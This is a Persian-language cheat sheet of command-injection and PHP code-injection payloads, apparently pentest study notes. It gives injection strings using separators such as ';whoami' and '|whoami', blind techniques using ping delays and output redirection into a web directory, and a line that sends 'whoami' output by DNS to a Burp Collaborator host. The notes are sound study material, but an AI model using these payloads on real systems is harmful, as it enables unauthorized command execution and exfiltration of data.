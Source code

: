 # Remote Command Execution

## Concept
- در بخش های زیر به دنبال این آسیب پذیری می گردیم :
  - انتخاب یک آیتم از درون dropdown box
    - باید برای تغییر این پارامتر و نیز مشاهده تاثیر در پاسخ، حتما از Burp استفاده کنیم
  - درون فیلدهای بخش ثبت نظرات که ممکن است از دستورات سیستمی برای پردازش اطلاعات کاربر (مانند ایمیل) استفاده شده باشد
    - هنگام استفاده از Burp باید حتما URL Encoding داشته باشیم (مثلا به جای فاصله از + استفاده کنیم)

## Payloads
```
;whoami
;%20whoami
&whoami
&&whoami
|whoami
||whoami
%0Awhoami
```

## Blind OS Command Injection
- **Time delays** : ```x||ping+-c+10+127.0.0.1||```
<p align="right">در این حالت پس از اجرای دستور فوق، 10 ثانیه طول می کشد تا response را در مرورگر مشاهده کنیم</p> 

- **Output redirection** : ```||whoami>/var/www/images/output.txt||```
<p align="right">عکس ها در مسیر فوق ذخیره شده اند، در این حالت، خروجی دستور در مسیر share شده ذخیره می گردد و بعدا می توانیم یکی از عکس های محصولات را باز کرده، سپس نام  فایل را با نام output.txt تغییر دهیم، تا نتیجه دستور را مشاهده کنیم</p>

- **Out-of-band interaction** : ```x||nslookup+7goyqnfizle0fk6mj5zk5qjtrkxalz.burpcollaborator.net```
<p align="right">در اینحالت سرور می تواند به یک آدرس بیرونی وصل شود، برای بررسی از Burp Collaborator استفاده می کنیم </p>

- **Out-of-band data exfilteration** : ```||nslookup+`whoami`.x0y8fg1javlrivvsd4hp2koh58byzn.burpcollaborator.net||```
<p align="right">در اینحالت می خواهیم نتیجه دستور در کوئری DNS به سمت سرور مهاجم در اینترنت ارسال شود، که در اینجا از Burp Collaborator استفاده شده و خروجی به شکل "peter-jSRUyX.x0y8fg1javlrivvsd4hp2koh58byzn.burpcollaborator.net.burpcollaborator.net" خواهد بود</p>

# Code Execution

## Payload
```
a";phpinfo();//
a".phpinfo();//
a);}phpinfo();//
```

## Sample PHP executable
- https://www.php.net/manual/en/function.shell-exec.php

